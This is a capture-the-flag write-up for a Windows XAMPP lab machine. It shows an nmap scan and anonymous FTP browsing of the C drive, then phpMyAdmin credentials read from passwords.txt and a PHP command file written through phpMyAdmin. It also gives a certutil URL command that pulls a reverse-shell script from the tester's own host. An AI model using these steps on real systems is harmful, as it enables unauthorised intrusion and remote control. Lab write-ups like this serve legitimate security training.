





# Django
- Difficulty : `easy`
- IP Address : `10.150.150.212`
- Operating System : `Windows`

# Table of Content
- [Nmap Result](#nmap-result)
- [Method to solve the challenge](#method-to-solve-the-challenge)

## Nmap Result
```
Nmap scan report for 10.150.150.212
Host is up, received syn-ack (0.26s latency).
Scanned at 2022-07-21 02:54:30 UTC for 82s

PORT      STATE SERVICE      REASON  VERSION
21/tcp    open  ftp          syn-ack
| fingerprint-strings: 
|   GenericLines: 
|     220-Wellcome to Home Ftp Server!
|     Server ready.
|     command not understood.
|     command not understood.
|   Help: 
|     220-Wellcome to Home Ftp Server!
|     Server ready.
|     'HELP': command not understood.
|   NULL, SMBProgNeg: 
|     220-Wellcome to Home Ftp Server!
|     Server ready.
|   SSLSessionReq: 
|     220-Wellcome to Home Ftp Server!
|     Server ready.
|_    command not understood.
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drw-rw-rw-   1 ftp      ftp            0 Mar 26  2019 . [NSE: writeable]
| drw-rw-rw-   1 ftp      ftp            0 Mar 26  2019 .. [NSE: writeable]
| drw-rw-rw-   1 ftp      ftp            0 Mar 13  2019 FLAG [NSE: writeable]
| -rw-rw-rw-   1 ftp      ftp        34419 Mar 26  2019 xampp-control.log [NSE: writeable]
|_-rw-rw-rw-   1 ftp      ftp          881 Nov 13  2018 zen.txt [NSE: writeable]
|_ftp-bounce: bounce working!
| ftp-syst: 
|_  SYST: Internet Component Suite
80/tcp    open  http         syn-ack Apache httpd 2.4.34 ((Win32) OpenSSL/1.0.2o PHP/5.6.38)
|_http-favicon: Unknown favicon MD5: 56F7C04657931F2D0B79371B2D6E9820
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.34 (Win32) OpenSSL/1.0.2o PHP/5.6.38
| http-title: Welcome to XAMPP
|_Requested resource was http://10.150.150.212/dashboard/
|_https-redirect: ERROR: Script execution failed (use -d to debug)
135/tcp   open  msrpc        syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn  syn-ack Microsoft Windows netbios-ssn
443/tcp   open  ssl/http     syn-ack Apache httpd 2.4.34 ((Win32) OpenSSL/1.0.2o PHP/5.6.38)
|_http-favicon: Unknown favicon MD5: 6EB4A43CB64C97F76562AF703893C8FD
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.34 (Win32) OpenSSL/1.0.2o PHP/5.6.38
| http-title: Welcome to XAMPP
|_Requested resource was https://10.150.150.212/dashboard/
| ssl-cert: Subject: commonName=localhost
| Issuer: commonName=localhost
| Public Key type: rsa
| Public Key bits: 1024
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2009-11-10T23:48:47
| Not valid after:  2019-11-08T23:48:47
| MD5:   a0a4 4cc9 9e84 b26f 9e63 9f9e d229 dee0
| SHA-1: b023 8c54 7a90 5bfa 119c 4e8b acca eacf 3649 1ff6
| -----BEGIN CERTIFICATE-----
| MIIBnzCCAQgCCQC1x1LJh4G1AzANBgkqhkiG9w0BAQUFADAUMRIwEAYDVQQDEwls
| b2NhbGhvc3QwHhcNMDkxMTEwMjM0ODQ3WhcNMTkxMTA4MjM0ODQ3WjAUMRIwEAYD
| VQQDEwlsb2NhbGhvc3QwgZ8wDQYJKoZIhvcNAQEBBQADgY0AMIGJAoGBAMEl0yfj
| 7K0Ng2pt51+adRAj4pCdoGOVjx1BmljVnGOMW3OGkHnMw9ajibh1vB6UfHxu463o
| J1wLxgxq+Q8y/rPEehAjBCspKNSq+bMvZhD4p8HNYMRrKFfjZzv3ns1IItw46kgT
| gDpAl1cMRzVGPXFimu5TnWMOZ3ooyaQ0/xntAgMBAAEwDQYJKoZIhvcNAQEFBQAD
| gYEAavHzSWz5umhfb/MnBMa5DL2VNzS+9whmmpsDGEG+uR0kM1W2GQIdVHHJTyFd
| aHXzgVJBQcWTwhp84nvHSiQTDBSaT6cQNQpvag/TaED/SEQpm0VqDFwpfFYuufBL
| vVNbLkKxbK2XwUvu0RxoLdBMC/89HqrZ0ppiONuQ+X2MtxE=
|_-----END CERTIFICATE-----
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
445/tcp   open  microsoft-ds syn-ack Windows 7 Home Basic 7601 Service Pack 1 microsoft-ds (workgroup: PWNTILLDAWN)
8089/tcp  open  ssl/http     syn-ack Splunkd httpd
| http-methods: 
|_  Supported Methods: GET HEAD OPTIONS
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Splunkd
|_http-title: splunkd
| ssl-cert: Subject: commonName=SplunkServerDefaultCert/organizationName=SplunkUser
| Issuer: commonName=SplunkCommonCA/organizationName=Splunk/stateOrProvinceName=CA/countryName=US/emailAddress=support@splunk.com/localityName=San Francisco
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2019-10-29T14:31:26
| Not valid after:  2022-10-28T14:31:26
| MD5:   5d60 c8e6 37f3 eea2 1ca0 3cd3 bbae 8193
| SHA-1: 0c85 65c6 0e58 49e7 1882 b403 40f4 b521 6360 8ba9
| -----BEGIN CERTIFICATE-----
| MIIDMjCCAhoCCQDsGSJfSRwcdzANBgkqhkiG9w0BAQsFADB/MQswCQYDVQQGEwJV
| UzELMAkGA1UECAwCQ0ExFjAUBgNVBAcMDVNhbiBGcmFuY2lzY28xDzANBgNVBAoM
| BlNwbHVuazEXMBUGA1UEAwwOU3BsdW5rQ29tbW9uQ0ExITAfBgkqhkiG9w0BCQEW
| EnN1cHBvcnRAc3BsdW5rLmNvbTAeFw0xOTEwMjkxNDMxMjZaFw0yMjEwMjgxNDMx
| MjZaMDcxIDAeBgNVBAMMF1NwbHVua1NlcnZlckRlZmF1bHRDZXJ0MRMwEQYDVQQK
| DApTcGx1bmtVc2VyMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAwA4l
| dCLRsUH/gqdstF7FgaM1VmhZb0ijlpG1sbpT8nG+OcPpI/LmQzMI73MceLrr3iGK
| TKBmT/7HiyLjVAUOC+sRxTr0NSUOESpmEm3HA60rV7xzCiGQIJcNoVWvR7gIF5gU
| 8G/Oqv2WBSJKVSg3z9up1FFYGF8VnEBUe/PyqGc0+mf0PC+vidx1V02PzeGfgG5o
| dnwCD0uaQ7yzH0GT9z59N8fYfXMcVM7pbdhUIATgF0tIkl9UgwF5RSsG4wMRmzqH
| /z+vjkn+hJdWydu33pD2J2st4a+v0vEDHqJYZkSXG7BqqMjsGpcjKnRsBen/JHxv
| FWlo45YUTNlqtP/+fwIDAQABMA0GCSqGSIb3DQEBCwUAA4IBAQA6nFTapGzsDIHj
| E38SOLEvQ5CWDWn+r1acCOTJ2U6gUzkymRhFfEZ9Sra8JK2F2a1IWcLrdbf495NN
| mwpwSU1D17DchCOIRxLFm8kq3imqLX0i/zgE3C+bsbl0MbgsTZsuZIRNEBSicfx6
| ZQPIuXl8HhFiJxGxK6/cQHs0R/GsaHCiB96QEyzRZzl9OieHwAI+JdAu/QDep7Av
| Z4bnpn9zJQhWIqAx6Zf7a2hLZbtNFqaFOH3sdlkI1r4vDunvIOfXXts2qq9PmitD
| C0xrGPL0+gkiEIdN5+6csG2RSnfwXO3K+ZA1ABXuLshoNVNoKve6kSCwzRBwUefX
| HkRDQlSM
|_-----END CERTIFICATE-----
49152/tcp open  msrpc        syn-ack Microsoft Windows RPC
49153/tcp open  msrpc        syn-ack Microsoft Windows RPC
49154/tcp open  msrpc        syn-ack Microsoft Windows RPC
49155/tcp open  msrpc        syn-ack Microsoft Windows RPC
49157/tcp open  msrpc        syn-ack Microsoft Windows RPC
49158/tcp open  msrpc        syn-ack Microsoft Windows RPC
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port21-TCP:V=7.80%I=7%D=7/21%Time=62D8BFED%P=x86_64-alpine-linux-musl%r
SF:(NULL,35,"220-Wellcome\x20to\x20Home\x20Ftp\x20Server!\r\n220\x20Server
SF:\x20ready\.\r\n")%r(GenericLines,79,"220-Wellcome\x20to\x20Home\x20Ftp\
SF:x20Server!\r\n220\x20Server\x20ready\.\r\n500\x20'\r':\x20command\x20no
SF:t\x20understood\.\r\n500\x20'\r':\x20command\x20not\x20understood\.\r\n
SF:")%r(Help,5A,"220-Wellcome\x20to\x20Home\x20Ftp\x20Server!\r\n220\x20Se
SF:rver\x20ready\.\r\n500\x20'HELP':\x20command\x20not\x20understood\.\r\n
SF:")%r(SSLSessionReq,89,"220-Wellcome\x20to\x20Home\x20Ftp\x20Server!\r\n
SF:220\x20Server\x20ready\.\r\n500\x20'\x16\x03\0\0S\x01\0\0O\x03\0\?G\xd7
SF:\xf7\xba,\xee\xea\xb2`~\xf3\0\xfd\x82{\xb9\xd5\x96\xc8w\x9b\xe6\xc4\xdb
SF:<=\xdbo\xef\x10n\0\0\(\0\x16\0\x13\0':\x20command\x20not\x20understood\
SF:.\r\n")%r(SMBProgNeg,35,"220-Wellcome\x20to\x20Home\x20Ftp\x20Server!\r
SF:\n220\x20Server\x20ready\.\r\n");
Service Info: Hosts: Wellcome, DJANGO; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 43m38s, deviation: 2s, median: 43m36s
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 14613/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 19575/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 9132/udp): CLEAN (Failed to receive data)
|   Check 4 (port 51927/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb-os-discovery: 
|   OS: Windows 7 Home Basic 7601 Service Pack 1 (Windows 7 Home Basic 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1
|   Computer name: Django
|   NetBIOS computer name: DJANGO\x00
|   Workgroup: PWNTILLDAWN\x00
|_  System time: 2022-07-21T03:39:15+00:00
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2022-07-21T03:39:16
|_  start_date: 2020-04-02T14:41:43
```

# Method to solve the challenge
In this challenge, we will first start with port 21 which is ftp. FTP is used to transfer file which we might have a chance to get valuable information.
```
ftp  10.150.150.212 
Connected to 10.150.150.212.
220-Wellcome to Home Ftp Server!
220 Server ready.
Name (10.150.150.212:root): 

331 Password required for root.
Password: 
230 User Anonymous logged in.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> dir
227 Entering Passive Mode (10,150,150,212,192,162).
150 Opening data connection for directory list.
drw-rw-rw-   1 ftp      ftp            0 Mar 26  2019 .
drw-rw-rw-   1 ftp      ftp            0 Mar 26  2019 ..
drw-rw-rw-   1 ftp      ftp            0 Mar 13  2019 FLAG
-rw-rw-rw-   1 ftp      ftp        34419 Mar 26  2019 xampp-control.log
-rw-rw-rw-   1 ftp      ftp          881 Nov 13  2018 zen.txt
226 File sent ok
```

With anonymous login, we are able to view a log file which should be our next clue.

```
cat xampp-control.log                
3:11:25 PM  [main]      Initializing Control Panel
3:11:25 PM  [main]      Windows Version: Windows 7 Home Basic  64-bit
3:11:25 PM  [main]      XAMPP Version: 5.6.38
3:11:25 PM  [main]      Control Panel Version: 3.2.2  [ Compiled: Nov 12th 2015 ]
3:11:25 PM  [main]      You are not running with administrator rights! This will work for
3:11:25 PM  [main]      most application stuff but whenever you do something with services
3:11:25 PM  [main]      there will be a security dialogue or things will break! So think 
3:11:25 PM  [main]      about running this application with administrator rights!
3:11:25 PM  [main]      XAMPP Installation Directory: "c:\xampp\"
3:11:25 PM  [main]      XAMPP Password Written in: "c:\xampp\passwords.txt"
...
```

It seems that the passwords are saved in `"c:\xampp\passwords.txt"`. When playing around ftp, it allow us to go to other files including `c://`.

```
 dir "C://"
227 Entering Passive Mode (10,150,150,212,192,186).
150 Opening data connection for directory list.
-rw-rw-rw-   1 ftp      ftp        17734 Nov 07  2007 boot.ini
-rw-rw-rw-   1 ftp      ftp        17734 Nov 07  2007 eula.1031.txt
-rw-rw-rw-   1 ftp      ftp        10134 Nov 07  2007 eula.1033.txt
-rw-rw-rw-   1 ftp      ftp        17734 Nov 07  2007 eula.1036.txt
-rw-rw-rw-   1 ftp      ftp        17734 Nov 07  2007 eula.1040.txt
-rw-rw-rw-   1 ftp      ftp          118 Nov 07  2007 eula.1041.txt
-rw-rw-rw-   1 ftp      ftp        17734 Nov 07  2007 eula.1042.txt
-rw-rw-rw-   1 ftp      ftp        17734 Nov 07  2007 eula.2052.txt
-rw-rw-rw-   1 ftp      ftp        17734 Nov 07  2007 eula.3082.txt
drw-rw-rw-   1 ftp      ftp            0 Mar 26  2019 FTP
-rw-rw-rw-   1 ftp      ftp         1110 Nov 07  2007 globdata.ini
-rwxrwxrwx   1 ftp      ftp       562688 Nov 07  2007 install.exe
-rw-rw-rw-   1 ftp      ftp          843 Nov 07  2007 install.ini
-rw-rw-rw-   1 ftp      ftp        76304 Nov 07  2007 install.res.1028.dll
-rw-rw-rw-   1 ftp      ftp        96272 Nov 07  2007 install.res.1031.dll
-rw-rw-rw-   1 ftp      ftp        91152 Nov 07  2007 install.res.1033.dll
-rw-rw-rw-   1 ftp      ftp        97296 Nov 07  2007 install.res.1036.dll
-rw-rw-rw-   1 ftp      ftp        95248 Nov 07  2007 install.res.1040.dll
-rw-rw-rw-   1 ftp      ftp        81424 Nov 07  2007 install.res.1041.dll
-rw-rw-rw-   1 ftp      ftp        79888 Nov 07  2007 install.res.1042.dll
-rw-rw-rw-   1 ftp      ftp        75792 Nov 07  2007 install.res.2052.dll
-rw-rw-rw-   1 ftp      ftp        96272 Nov 07  2007 install.res.3082.dll
drw-rw-rw-   1 ftp      ftp            0 Oct 29  2019 New folder
drw-rw-rw-   1 ftp      ftp            0 Jul 14  2009 PerfLogs
dr--r--r--   1 ftp      ftp            0 Apr 02  2020 Program Files
dr--r--r--   1 ftp      ftp            0 Feb 28  2019 Program Files (x86)
drw-rw-rw-   1 ftp      ftp            0 Oct 29  2019 temp
dr--r--r--   1 ftp      ftp            0 Nov 13  2018 Users
-rw-rw-rw-   1 ftp      ftp         5686 Nov 07  2007 vcredist.bmp
-rw-rw-rw-   1 ftp      ftp      1442522 Nov 07  2007 VC_RED.cab
-rw-rw-rw-   1 ftp      ftp       232960 Nov 07  2007 VC_RED.MSI
drw-rw-rw-   1 ftp      ftp            0 Jun 18  2020 Windows
drw-rw-rw-   1 ftp      ftp            0 Jul 21 04:48 xampp
226 File sent ok
```
Since we are able to look into other directory, there is a chance that we are able to get the password from the given directory.

```
ftp> dir "C://xampp//"
227 Entering Passive Mode (10,150,150,212,192,188).
150 Opening data connection for directory list.
drw-rw-rw-   1 ftp      ftp            0 Jul 21 04:48 .
drw-rw-rw-   1 ftp      ftp            0 Jul 21 04:48 ..
drw-rw-rw-   1 ftp      ftp            0 Nov 12  2018 anonymous
drw-rw-rw-   1 ftp      ftp            0 Nov 12  2018 apache
-rwxrwxrwx   1 ftp      ftp          436 Jun 07  2013 apache_start.bat
-rwxrwxrwx   1 ftp      ftp          140 Jun 07  2013 apache_stop.bat
-rwxrwxrwx   1 ftp      ftp         9439 Mar 30  2013 catalina_service.bat
-rwxrwxrwx   1 ftp      ftp         2727 Jun 07  2013 catalina_start.bat
-rwxrwxrwx   1 ftp      ftp         2492 Jun 25  2013 catalina_stop.bat
drw-rw-rw-   1 ftp      ftp            0 Nov 12  2018 cgi-bin
drw-rw-rw-   1 ftp      ftp            0 Nov 12  2018 contrib
-rwxrwxrwx   1 ftp      ftp         2918 Nov 12  2018 ctlscript.bat
-rwxrwxrwx   1 ftp      ftp         5632 Jul 21 04:48 D3fa1t_shell.exe
-rwxrwxrwx   1 ftp      ftp           78 Mar 30  2013 filezilla_setup.bat
-rwxrwxrwx   1 ftp      ftp          150 Jun 07  2013 filezilla_start.bat
-rwxrwxrwx   1 ftp      ftp          149 Jun 07  2013 filezilla_stop.bat
-rw-rw-rw-   1 ftp      ftp           40 Mar 13  2019 FLAG20.txt
drw-rw-rw-   1 ftp      ftp            0 Jul 21 04:48 htdocs
drw-rw-rw-   1 ftp      ftp            0 Nov 12  2018 img
drw-rw-rw-   1 ftp      ftp            0 Nov 12  2018 install
drw-rw-rw-   1 ftp      ftp            0 Nov 12  2018 licenses
drw-rw-rw-   1 ftp      ftp            0 Nov 12  2018 locale
drw-rw-rw-   1 ftp      ftp            0 Nov 12  2018 mailoutput
drw-rw-rw-   1 ftp      ftp            0 Nov 12  2018 mailtodisk
-rwxrwxrwx   1 ftp      ftp          136 Jun 07  2013 mercury_start.bat
-rwxrwxrwx   1 ftp      ftp           60 Jun 07  2013 mercury_stop.bat
drw-rw-rw-   1 ftp      ftp            0 Nov 12  2018 mysql
-rwxrwxrwx   1 ftp      ftp          481 Jun 07  2013 mysql_start.bat
-rwxrwxrwx   1 ftp      ftp          220 Jun 07  2013 mysql_stop.bat
-rw-rw-rw-   1 ftp      ftp          816 Mar 13  2019 passwords.txt
drw-rw-rw-   1 ftp      ftp            0 Nov 12  2018 perl
drw-rw-rw-   1 ftp      ftp            0 Nov 12  2018 php
drw-rw-rw-   1 ftp      ftp            0 Nov 12  2018 phpMyAdmin
-rw-rw-rw-   1 ftp      ftp          788 Nov 12  2018 properties.ini
-rw-rw-rw-   1 ftp      ftp         7699 Sep 18  2018 readme_de.txt
-rw-rw-rw-   1 ftp      ftp         7566 Sep 18  2018 readme_en.txt
-rw-rw-rw-   1 ftp      ftp         5729 Sep 18  2018 RELEASENOTES
-rwxrwxrwx   1 ftp      ftp        60928 Mar 30  2013 service.exe
-rwxrwxrwx   1 ftp      ftp         1255 Mar 30  2013 setup_xampp.bat
drw-rw-rw-   1 ftp      ftp            0 Nov 12  2018 src
-rwxrwxrwx   1 ftp      ftp         3829 Nov 20  2016 test_php.bat
drw-rw-rw-   1 ftp      ftp            0 Jul 21 04:36 tmp
drw-rw-rw-   1 ftp      ftp            0 Nov 12  2018 tomcat
-rw-rw-rw-   1 ftp      ftp       219237 Nov 12  2018 uninstall.dat
-rwxrwxrwx   1 ftp      ftp      8541211 Nov 12  2018 uninstall.exe
drw-rw-rw-   1 ftp      ftp            0 Nov 12  2018 webdav
-rwxrwxrwx   1 ftp      ftp      3367424 Dec 14  2016 xampp-control.exe
-rw-rw-rw-   1 ftp      ftp         1194 Apr 02  2020 xampp-control.ini
-rw-rw-rw-   1 ftp      ftp        40695 Apr 02  2020 xampp-control.log
-rwxrwxrwx   1 ftp      ftp         1084 Nov 12  2018 xampp_shell.bat
-rwxrwxrwx   1 ftp      ftp       118784 Mar 30  2013 xampp_start.exe
-rwxrwxrwx   1 ftp      ftp       118784 Mar 30  2013 xampp_stop.exe
226 File sent ok
```

```
cat C:\\xampp\\passwords.txt 
### XAMPP Default Passwords ###

1) MySQL (phpMyAdmin):

   User: root
   Password:thebarrierbetween

2) FileZilla FTP:

   [ You have to create a new user on the FileZilla Interface ] 

3) Mercury (not in the USB & lite version): 

   Postmaster: Postmaster (postmaster@localhost)
   Administrator: Admin (admin@localhost)

   User: newuser  
   Password: wampp 

4) WEBDAV: 

   User: xampp-dav-unsecure
   Password: ppmax2011
   Attention: WEBDAV is not active since XAMPP Version 1.7.4.
   For activation please comment out the httpd-dav.conf and
   following modules in the httpd.conf
   
   LoadModule dav_module modules/mod_dav.so
   LoadModule dav_fs_module modules/mod_dav_fs.so  
   
   Please do not forget to refresh the WEBDAV authentification (users and passwords). 
```
We now have phpMyAdmin credentials and we could proceed with the web browser. Based on the website, the most interesting part is phpMyAdmin is available for us to login.
<br>

<br>
It stated that we need to use `https` instead of `http`. Once we changed to `https` and login with the correct credentials, we managed to login and proceed to the next part.
<br>

<br>
After looking around, it seems that we are able to save files with command into their server. We tried to upload php command into it and try if it is working or not.
<br>

<br>
It turns out that it is working and we got ourselves command injection from website.
<br>

<br>
Now we could make use of the cmd and upload our malicious php reverse shell and run it.
```
<host machine>
python -m http.server 80

<website>
http://10.150.150.212/command.php?cmd=certutil%20-urlcache%20-split%20-f%20%22http://10.66.67.2/windows-reverse-shell.php%22%20shell.php
```

<br>
Since we have upload our reverse shell script, we just need to get our netcat listener ready and we should be able to get our shell.
<br>

<br>
In this challenge, we actually don't even need shell to get our flag. The shell is just something extra which may still be learning something. All flag can be retrieve using ftp except flag18 which is available at phpMyAdmin.


